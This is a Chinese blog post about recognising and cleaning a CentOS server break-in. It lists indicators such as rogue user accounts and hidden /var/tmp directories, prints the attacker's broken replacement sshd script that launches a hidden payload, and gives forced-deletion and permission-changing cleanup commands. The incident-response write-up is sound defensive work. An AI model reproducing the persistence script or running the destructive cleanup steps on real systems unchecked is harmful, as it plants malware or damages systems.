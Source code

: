 ```yaml
---
title: centos服务器被入侵
description: 登录服务器出现-bash-4.2#，那么有可能你的机器已经被入侵了，附上我遇到的这种情况，看看对你有没有帮助。
date: 2021-09-20 10:33:57
---
```

## root用户登录出现-bash-4.2 #

在修复过.bashrc文件或者恢复过.bashrc后，仍然出现-bash-4.2#，那么有可能你的机器已经被入侵了，附上我遇到的这种情况，看看对你有没有帮助。
服务器入侵检查和处理

## 1、确认是否被入侵

出现以下现象或存在以下目录
root用户登录出现 `-bash-4.2#`

`netstat` 命令回显为空

检查系统用户列表是否有 gh0stx, sclipicibosu, mexalzsherifu 三个或其中任意一个

查看是否存在`/var/tmp/.ladyg0g0/`目录

查看是否存在`/var/tmp/.sl/`目录

检查`/root/.ssh/authorized_keys`是否存在异常

查看是否存在`/usr/.SQL-Unix/.SQL/.db` 或者 `/var/tmp/.SQL-Unix/.SQL/.db`

查看是否存在`/usr/tmp/.ladyg0g0/.pr1nc35` 或者 `/var/tmp/.ladyg0g0/.pr1nc35`

查看是否存在`/usr/bin/.pidsclip`

查看是否存在`/usr/bin/.locationesclipiciu`

检查`/usr/bin/sshd` 内容是否是如下代码段

```shell
#!/bin/bash
locatieasdf=$(cat /usr/bin/.locationesclipiciu)
if [ ! -d  ]; then
        mkdir
        rsync -r /usr/bin/.locationesclipiciu/ /
        sleep 1
        /.b4nd1d0 > /dev/null 2>&1 & disown
else
        if [ ! -f  /.dorel ]; then
                rsync -r /usr/bin/.locationesclipiciu/ /
                sleep 1
                /.b4nd1d0 > /dev/null 2>&1 & disown
fi
```

## 2、威胁处理

删除恶意脚本

强制删除 /var/tmp/.sl/ 目录

强制删除 /var/tmp/.ladyg0g0/ 目录

强制删除 /usr/bin/.locationesclipiciu

强制删除 /usr/bin/.pidsclip

强制删除 /root/.b4nd1d0

强制删除 /root/.dorel

强制删除 /usr/.SQL-Unix/ 目录

强制删除 /usr/tmp 目录

强制删除 /usr/bin/sshd

恢复.bashrc文件 cp /etc/skel/.bash* /root/

修改.bashrc文件

export PS1='[\u@\h \W]\$'

1. 删除 gh0stx, sclipicibosu, mexalzsherifu 中存在的用户

userdel –r sclipicibosu//删除不成功就使用chmod修改/etc/passwd和/etc/shadow权限，再使用vim删除该用户

reboot重启

passwd root //修改密码为强口令

## 3、恶意脚本分析

往系统服务中注册了一个私有服务 /lib/systemd/system/myservice.service

myservice私有服务中进行了一个文件同步操作 rsync -r /usr/bin/.locationesclipiciu/

同步了 /var/tmp/.sl/ 下的内容

重写 .bashrc，导致常用命令失效

后续可能进行的行为暂时不明
